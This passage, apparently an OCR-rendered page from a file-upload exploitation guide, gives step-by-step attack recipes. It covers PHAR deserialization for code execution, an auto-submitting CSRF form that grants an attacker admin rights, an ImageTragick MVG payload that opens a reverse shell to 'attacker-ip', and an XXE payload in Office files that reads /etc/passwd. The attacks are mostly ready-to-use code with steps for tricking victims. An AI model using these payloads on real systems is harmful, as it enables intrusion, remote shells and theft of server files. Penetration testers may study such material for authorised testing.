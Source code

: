        $obj = new Vulnerable();
       $phar = new Phar('exploit.phar');
       $phar->setStub('<?php __HALT_COMPILER(); ?>');
       $phar->addFromString('test.txt', 'test');
       $phar->setMetadata($obj);
       ?>
       ```
       - Step 3: Upload the PHAR file with an allowed extension (e.g., .jpg)
       - Step 4: Trigger file operations on the uploaded file using phar:// wrapper
       - Step 5: Verify successful deserialization and code execution
       - Example: If application uses `file_exists()` on uploaded files, request `phar://path/to/uploads/exploit.jpg/test.txt`

  - **File upload for CSRF bypass**
    1. **Using file uploads to bypass CSRF protections**:
       - Step 1: Identify applications with strict CSRF protections but file upload capabilities
       - Step 2: Create HTML/SVG file with auto-submitting form:
       ```html
       <form id="csrf" action="https://vulnerable-site.com/admin/action" method="POST">
         <input type="hidden" name="username" value="attacker" />
         <input type="hidden" name="role" value="admin" />
         <input type="submit" value="Submit" />
       </form>
       <script>document.getElementById("csrf").submit();</script>
       ```
       - Step 3: Upload the file to the application
       - Step 4: Trick admin/victim into viewing the file
       - Step 5: Verify if the CSRF action was performed
       - Example: Upload HTML file that submits form to change admin email/password

  - **ImageTragick exploitation**
    1. **Exploiting ImageMagick vulnerabilities**:
       - Step 1: Create a malicious MVG file:
       ```
       push graphic-context
       viewbox 0 0 640 480
       fill 'url(https://127.0.0.1/image.jpg"|bash -i >& /dev/tcp/attacker-ip/4444 0>&1|touch "test)'
       pop graphic-context
       ```
       - Step 2: Save with image extension (.jpg, .png)
       - Step 3: Upload the file to an application using ImageMagick
       - Step 4: Check for evidence of command execution (created files, connections)
       - Step 5: Test different ImageTragick payloads based on the environment
       - Example: Upload MVG file that writes to a web-accessible location and verify file creation

  - **File upload for XXE**
    1. **XXE via uploaded Office documents**:
       - Step 1: Create a malicious XML file:
       ```xml
       <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
       <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
       <test>&xxe;</test>
       ```
       - Step 2: Create or modify Office document (DOCX, XLSX) with this content
       - Step 3: Office files are ZIP archives, so unzip, modify XML files, rezip
       - Step 4: Upload the modified Office document
       - Step 5: Check for XXE vulnerabilities in document processing
       - Example: Modify word/document.xml in a DOCX file to include XXE payload
